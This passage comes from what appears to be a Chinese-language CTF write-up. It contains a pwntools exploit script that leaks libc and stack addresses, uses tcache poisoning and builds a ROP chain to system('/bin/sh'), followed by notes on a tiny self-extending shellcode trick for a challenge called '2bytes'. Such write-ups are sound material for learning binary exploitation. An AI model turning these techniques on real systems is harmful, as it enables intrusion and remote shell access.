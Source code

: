 ```python
io.recvuntil(b'1185    ')
libcbase = u64(io.recv(6).ljust(8, b'\x00'))-0x219ce0
log.success('libcbase ===> '+hex(libcbase))
environ = libcbase + libc.symbols['environ']
sys = libcbase + libc.symbols['system']
bin_sh = libcbase + next(libc.search(b'/bin/sh\x00'))
pop_rdi = libcbase + 0x2a3e5

#将environ区域链入链表，打印出栈地址
edit(1, b'A', p64(environ-0x18))
edit(2, b'A', b'0'*8+p16((heapbase&0xffff)+0x2c8))
show()

io.recvuntil(b'0                       ')
stack = u64(io.recv(6).ljust(8, b'\x00'))-0x148
log.success('stack ===> '+hex(stack))

#tcache poison 打栈
edit(2, b'A', b'0'*8+p16((heapbase&0xffff)+0x3f0))
dele(7)
dele(8)

edit(2, b'A', b'0'*8+p16((heapbase&0xffff)+0x418))
pos = heapbase + 0x420
fd = (stack) ^ (pos>>12)
edit(0x31, p64(fd), b'A')

edit(2, b'A', b'0'*8+p16((heapbase&0xffff)+0x810))
add(b'A', b'A')     #0x34
add(p64(pop_rdi)+p64(bin_sh)[:7], p64(sys-0x470+2)) #0x35

#DEBUG()

io.interactive()
```

## 2bytes

溢出覆盖 password 绕过检查，同时写 shellcode。shellcode 之能写 7 字节，并且从第 5 个字节开始执行。

使用 `jmp` 指令跳转到 shellcode 开始部分，还剩 5 字节可用。

调试观察寄存器，可以发现 `rax = 0`, `rdi = 0`, `rsi = 0x1000`, `rdx` 是 shellcode 结束地址。对着程序看能发现这些寄存器都是在程序里赋值的，和 libc 版本无关。

使用 `xchg` 指令将 `rdx` 和 `rsi` 交换，使得 `rsi` 指向 shellcode 结束地址，`rdx = 0x1000`，然后 `syscall` 就正好可以读入更多的 shellcode 了。
